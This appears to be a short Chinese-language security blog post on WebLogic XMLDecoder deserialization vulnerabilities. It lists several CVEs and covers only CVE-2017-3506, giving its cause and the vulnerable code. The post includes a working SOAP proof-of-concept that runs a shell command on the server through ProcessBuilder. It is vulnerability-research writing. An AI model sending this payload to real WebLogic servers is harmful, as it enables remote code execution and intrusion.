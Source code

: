 ```yaml
---
layout:     post
title:      "weblogic xmlDecoder反序列化漏洞"
subtitle:   ""
date:       2020-09-09 12:00:00
author:     "seal"
header-img: "img/post-bg-infinity.jpg"
tags:
    - web安全
    - weblogic
    - java
    - 反序列化
typora-root-url: ../../luckseal.github.io
---
```


#### weblogic XMLDecoder 反序列化漏洞
CVE-2017-3506
CVE-2017-10271
CVE-2017-10352
CVE-2019-2725
CVE-2019-2729
#### CVE-2017-3506
##### 漏洞原因
反序列化数据可控，且对数据未进行任何过滤处理
```
public WorkContextXmlInputAdapter(InputStream var1){
    this.xmlDecoder = new XMLDecoder(var1);
}
```
##### poc
```
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
            <object class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>/bin/bash</string>
                </void>
                <void index="1">
                  <string>-c</string>
                </void>
                <void index="2">
                  <string>whoami</string>
                </void>
              </array>
              <void method="start"/>
            </object>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
```
